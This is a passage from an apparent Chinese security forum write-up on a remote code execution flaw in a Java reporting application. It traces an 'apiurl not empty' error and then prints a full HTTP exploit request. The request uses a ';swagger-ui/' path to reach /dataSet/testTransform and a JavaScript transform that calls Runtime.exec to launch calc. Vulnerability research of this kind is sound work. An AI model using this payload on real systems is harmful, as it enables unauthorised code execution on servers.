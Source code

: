 ![image-20241022194933273](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-1aceefa81f8e806c1c8c8fe5425760fedefba4fd.png)

发现在上一行`List data = dataSourceService.execute(dataSourceDto);`这里断了，应该就是没有apiurl的原因

![image-20241022195251232](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-d7ca1744f992478f608ff9fa665bf7b8b121a1ba.png)

根据报的错误apiurl not empty全局搜索

![image-20241022195759172](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-8be8d163205f6dcc84e5c716be8321760605fdca.png)

构造的时候要注意header的格式，但是又报错了，说是数据源连接失败，所以这个apiurl得是能访问到的接口

![image-20241022200104545](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-c431519405f4c2c5afdbc71b4df67d5d18eb93cb.png)

```http
POST /dataSet/testTransform;swagger-ui/ HTTP/1.1
Host: 127.0.0.1:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 615

{
  "dynSentence": "{'apiUrl':'http://127.0.0.1:9095/dataSet/testTransform','method':'GET','header':'{\\\"Content-Type\\\":\\\"application/json;charset=UTF-8\\\"}','body':''}",
  "dataSetParamDtoList": [
    {
      "paramName": "",
      "paramDesc": "",
      "paramType": "",
      "sampleItem": "",
      "mandatory": true,
      "requiredFlag": 2,
      "validationRules": ""
    }
  ],
  "dataSetTransformDtoList": [
    {
      "transformType": "js",
      "transformScript": "function dataTransform(){\nvarx=java.lang.Runtime.getRuntime().exec(\"calc\")\n}"
    }
  ],
  "setType": "http"
}
```

执行成功
